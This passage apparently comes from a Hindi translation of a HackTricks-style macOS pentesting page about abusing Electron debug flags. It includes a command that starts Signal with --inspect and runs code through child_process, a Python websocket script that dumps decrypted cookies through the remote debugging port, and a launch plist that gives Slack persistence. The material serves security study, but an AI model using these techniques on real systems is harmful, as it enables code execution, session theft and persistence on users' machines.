 ```xml
</dict>
```
## इंस्पेक्शन के साथ आरसीई

[**इस**](https://medium.com/@metnew/why-electron-apps-cant-store-your-secrets-confidentially-inspect-option-a49950d6d51f) के अनुसार, यदि आप **`--inspect`**, **`--inspect-brk`** और **`--remote-debugging-port`** जैसे फ्लैग्स के साथ इलेक्ट्रॉन एप्लिकेशन को चलाते हैं, तो एक **डीबग पोर्ट खुल जाएगा** जिस पर आप कनेक्ट कर सकते हैं (उदाहरण के लिए `chrome://inspect` में से Chrome से) और आप उस पर **कोड इंजेक्शन कर सकेंगे** या नए प्रोसेस चला सकेंगे।
उदाहरण के लिए:

{% code overflow="wrap" %}
```bash
/Applications/Signal.app/Contents/MacOS/Signal --inspect=9229
# Connect to it using chrome://inspect and execute a calculator with:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
{% endcode %}

{% hint style="danger" %}
यदि fuse**`EnableNodeCliInspectArguments`** अक्षम है, तो ऐप लॉन्च होने पर नोड पैरामीटर (जैसे `--inspect`) को **अनदेखा करेगा** जब तक env वेरिएबल **`ELECTRON_RUN_AS_NODE`** सेट नहीं होता है, जो अगर fuse **`RunAsNode`** अक्षम है तो यह भी **अनदेखा किया जाएगा**।

हालांकि, आप अभी भी **electron पैरामीटर `--remote-debugging-port=9229`** का उपयोग कर सकते हैं, लेकिन पिछले पेलोड दूसरे प्रक्रियाओं को निष्पादित करने के लिए काम नहीं करेगा।
{% endhint %}

पैरामीटर **`--remote-debugging-port=9222`** का उपयोग करके Electron ऐप से कुछ जानकारी चोरी की जा सकती है, जैसे कि **इतिहास** (GET कमांड के साथ) या ब्राउज़र के **कुकीज़** (जैसे कि वे ब्राउज़र के अंदर **डिक्रिप्ट** होते हैं और उन्हें देने वाला एक **json एंडपॉइंट** होता है)।

आप यह कैसे कर सकते हैं इसे यहां [**यहां**](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e) और [**यहां**](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f) सीख सकते हैं और ऑटोमेटिक टूल [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) या एक सरल स्क्रिप्ट का उपयोग कर सकते हैं जैसे:
```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/85976D59050BFEFDBA48204E3D865D00", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv()
```
### ऐप Plist से इंजेक्शन

आप इस env variable का उपयोग करके प्लिस्ट में इंजेक्शन कर सकते हैं ताकि स्थायित्व बनाए रख सकें, इन कुंजीयों को जोड़कर:
```xml
<dict>
<key>ProgramArguments</key>
<array>
<string>/Applications/Slack.app/Contents/MacOS/Slack</string>
<string>--inspect</string>
</array>
<key>Label</key>
<string>com.hacktricks.hideme</string>
<key>RunAtLoad</key>
<true/>
</dict>
```
## TCC बाइपास पुराने संस्करणों का दुरुपयोग करके
